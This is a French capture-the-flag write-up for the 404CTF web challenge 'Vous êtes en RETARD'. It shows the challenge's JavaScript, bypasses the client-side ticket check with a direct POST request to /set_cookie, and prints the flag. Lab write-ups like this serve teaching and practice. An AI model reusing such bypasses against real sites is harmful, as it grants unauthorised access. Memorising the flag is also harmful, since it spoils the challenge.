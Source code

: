 # Vous êtes en RETARD
## Enoncé
> Vous voilà devant le stade pour voir le dernier match de votre équipe préférée, le Gorfou FC !
> Malheureusement, vous êtes arrivé.e en retard et l'entrée est fermée... Mais pas de panique, il vous suffit de trouver un moyen pour quand même rentrer !

Auteur: **@Asumamusa**
 
Connexion: `https://en-retard.challenges.404ctf.fr`

## Analyse

On arrive directement sur une page vierge avec un panneau nous signalant une interdiction

<p align="center">
    <img src="../../_Platforms/images/404CTFWeb1.png" alt="img1" style="width:40%;">
</p>

En inspectant le code source on tombe sur un script js intéressant:
```javascript
setInterval(function() {
    var panneau = document.querySelector('.panneau');
    var barre = document.querySelector('.barre-en-fer');
    if (!panneau && barre) {
        barre.remove();
    }
}, 100);

document.querySelector('.entrer-dans-le-stade').addEventListener('click', function() {
    window.location.href = '/donnez-moi-mon-ticket-pitie';
});

window.onload = function() {
    var cookies = document.cookie.split('; ');
    var fraudeur = cookies.find(row => row.startsWith('fraude='));

    if (fraudeur && fraudeur.split('=')[1] === 'true') {
        var zoneTexte = document.querySelector('.zone-texte');
        zoneTexte.textContent = 'Vous avez essayé de frauder, mais le vigile vous a aperçu et vous a ramené à l\'entrée...';
        zoneTexte.style.display = 'block';
    }
};
```
On se rend sur le chemin `/donnez-moi-mon-ticket-pitie` et on trouve encore une fois un nouveau script js:
```javascript
var bouton = document.querySelector('.valider-billet');
var billet = document.querySelector('.billet');
window.validable = [];
bouton.addEventListener('click', function() {
    if (window.validable.includes(billet.id)) {
        fetch('/set_cookie', {method: 'POST'}).then(function() {
            window.location.href = "/devant-le-match";
        });
    } else {
        alert('Billet non validé');
    }
});
```
## Exploitation

On peut alors soit modifier la variable `window.validable` pour y inclue un id, soit directement faire une requête POST au chemin `/set_cookie`.
```http
POST /set_cookie HTTP/2
Host: en-retard.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Le flag est reçu sous forme de cookie en clair `allergies=404CTF{gluten-sucre-au-sucre}`

Flag: **404CTF{gluten-sucre-au-sucre}**